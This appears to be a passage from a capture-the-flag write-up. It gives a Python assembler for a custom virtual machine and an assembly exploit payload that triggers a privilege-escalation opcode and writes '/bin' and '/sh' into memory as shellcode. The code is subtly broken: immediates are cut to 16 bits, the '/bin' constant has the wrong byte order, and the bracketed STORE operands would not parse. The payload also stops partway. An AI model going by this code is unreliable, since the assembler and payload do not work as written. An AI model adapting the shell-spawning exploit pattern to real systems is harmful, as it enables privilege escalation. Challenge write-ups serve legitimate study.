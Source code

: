 ## Exploitation Implementation

VM assembler and exploit:

```python
#!/usr/bin/env python3

# VM Assembler for the custom architecture
class VMAssembler:
    OPCODES = {
        'ADD': 0x01, 'SUB': 0x02, 'MUL': 0x03,
        'LOAD': 0x10, 'STORE': 0x11, 'LOADI': 0x12,
        'JMP': 0x20, 'JEQ': 0x21, 'JNE': 0x22,
        'CALL': 0x30, 'RET': 0x31,
        'SYSCALL': 0x40, 'PRIVESC': 0x41,
        'NOP': 0x00, 'HALT': 0xFF
    }

    def assemble(self, code):
        bytecode = bytearray()

        for line in code.strip().split('\n'):
            line = line.strip()
            if not line or line.startswith('#'):
                continue

            parts = line.replace(',', ' ').split()
            opcode = self.OPCODES[parts[0]]
            bytecode.append(opcode)

            # Add operands based on instruction type
            for i in range(1, min(4, len(parts))):
                if parts[i].startswith('R'):
                    bytecode.append(int(parts[i][1:]))
                elif parts[i].startswith('#'):
                    val = int(parts[i][1:], 0)
                    bytecode.append(val & 0xFF)
                    bytecode.append((val >> 8) & 0xFF)
                else:
                    val = int(parts[i], 0)
                    bytecode.append(val & 0xFF)
                    bytecode.append((val >> 8) & 0xFF)

            # Pad instruction to 4 bytes
            while len(bytecode) % 4 != 0:
                bytecode.append(0)

        return bytes(bytecode)

# Exploit payload
exploit_asm = """
# Initialize registers
LOADI R0, #0x1338      # Wrong value to trigger bug
LOADI R1, #0xF008      # Address of system function pointer

# Trigger privilege escalation bug
PRIVESC

# Now in supervisor mode - write shellcode
LOADI R2, #0x2F62696E  # "/bin" in little endian
LOADI R3, #0x68732F    # "/sh" in little endian
STORE [#0x9000], R2
STORE [#0x9004], R3

```